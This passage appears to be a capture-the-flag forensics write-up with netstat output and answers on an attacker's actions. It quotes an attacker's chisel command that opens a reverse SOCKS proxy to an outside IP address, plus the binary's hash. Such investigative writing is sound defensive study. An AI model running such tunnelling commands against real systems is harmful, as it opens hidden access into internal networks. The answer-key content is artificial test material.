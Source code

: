 ```
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1760  
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2424  
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       624  
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       608  
  TCP    192.168.254.107:139    0.0.0.0:0              LISTENING       4  
  TCP    192.168.254.107:51802  52.139.250.253:443     ESTABLISHED     3216  
  TCP    192.168.254.107:51839  34.104.35.123:80       TIME_WAIT       0  
  TCP    192.168.254.107:51858  104.101.22.128:80      TIME_WAIT       0  
  TCP    192.168.254.107:51860  20.205.146.149:443     TIME_WAIT       0  
  TCP    192.168.254.107:51861  204.79.197.200:443     ESTABLISHED     4352  
  TCP    192.168.254.107:51871  20.190.144.169:443     TIME_WAIT       0  
  TCP    192.168.254.107:51876  52.178.17.2:443        ESTABLISHED     4388  
  TCP    192.168.254.107:51878  20.60.178.36:443       ESTABLISHED     4388  
  TCP    192.168.254.107:51881  52.109.124.115:443     ESTABLISHED     4388  
  TCP    192.168.254.107:51882  52.139.154.55:443      ESTABLISHED     4388  
  TCP    192.168.254.107:51884  40.119.211.203:443     ESTABLISHED     4388  
  TCP    192.168.254.107:51895  52.152.90.172:443      ESTABLISHED     5508  
  TCP    192.168.254.107:51896  20.44.229.112:443      ESTABLISHED     8904
```

**Answer**: 5985
### Question 3

> The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection? **Remove the double quotes from the log**.

We found this a little earlier, but here's the screenshot again:

![](https://i.imgur.com/qmq5CUg.png)

Which was downloaded via:

![](https://i.imgur.com/3Eol2ex.png)

**Answer**: `C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks`
### Question 4

> What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

In the same log entry, just scrolling to the left a little, we find the hash.

**Answer:**`_8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451_`
### Question 5

> What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.

Search for the SHA256 hash from earlier on VirusTotal and go to the details page of the result to find the tool used.

**Answer**: `chisel`
### Question 6
